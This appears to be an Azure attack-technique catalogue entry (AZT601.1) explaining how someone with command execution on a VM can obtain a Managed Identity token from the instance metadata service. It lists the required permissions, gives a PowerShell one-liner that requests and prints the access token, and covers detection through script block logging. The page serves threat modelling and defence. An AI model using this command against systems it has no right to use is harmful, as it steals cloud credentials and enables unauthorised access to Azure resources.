

# AZT601.1 - Steal Managed Identity JsonWebToken: Virtual Machine IMDS Request

By utilizing access to IMDS, an attacker can request a JWT for a Managed Identity on an Azure VM if they have access to execute commands on the system.

!!! info "Resource" 

	Virtual Machine

!!! success "Actions" 

	* Microsoft.Compute/virtualMachines/write
	* Microsoft.Compute/virtualMachines/extensions/*

!!! example "Examples"

	=== "PowerShell"
		
		[`#!powershell powershell.exe -c $a=Invoke-Restmethod -Uri 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01"&"resource=https://management.azure.com/' -Method GET -Headers @{Metadata='true'} -UseBasicParsing;$a.access_token`](https://docs.microsoft.com/en-us/azure/active-directory/managed-identities-azure-resources/how-to-use-vm-token)

    === "Azure Portal"

		

!!! abstract "Detections"

	The detection will be based off of the [Command Execution](../../Execution/AZT301/AZT301.md) technique chosen. If using RDP, then no logs will be generated in Azure. 
	Since the command to retrieve the JWT requires local PowerShell execution, script block logging will reveal the request used to gather the token.

!!! faq "Additional Resources"

	* [https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service?tabs=windows](https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service?tabs=windows)
	* [https://docs.microsoft.com/en-us/azure/active-directory/managed-identities-azure-resources/how-to-use-vm-token](https://docs.microsoft.com/en-us/azure/active-directory/managed-identities-azure-resources/how-to-use-vm-token)